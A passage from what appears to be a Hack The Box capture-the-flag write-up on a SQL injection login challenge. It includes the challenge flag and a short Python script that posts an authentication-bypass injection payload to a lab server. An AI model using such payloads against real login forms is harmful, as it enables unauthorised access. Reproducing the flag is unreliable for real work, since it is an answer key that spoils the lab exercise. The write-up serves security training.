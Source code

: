Result:

![santize-1](/assets/ss-htb-owasp/sanitize/sanitize_3.jpg)

> HTB{SQL_1nj3ct1ng_my_w4y_0utta_h3r3}

Let's practice Python:

```python
#!/usr/bin/env python3

import requests
from bs4 import BeautifulSoup

target = "http://139.59.166.5:31877"
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
payload = "username=admin&password=admin'+OR+1%3d%3d1--"

print("[+] lester: Sending POST request to: " +target)
resp = requests.post(target, payload, headers=headers)
soup = BeautifulSoup(resp.text, 'html.parser')

print("[+] lester: Got slogan: " +soup.find('p').getText())
```

Output:

![santize-1](/assets/ss-htb-owasp/sanitize/sanitize_4.jpg)

### Remark
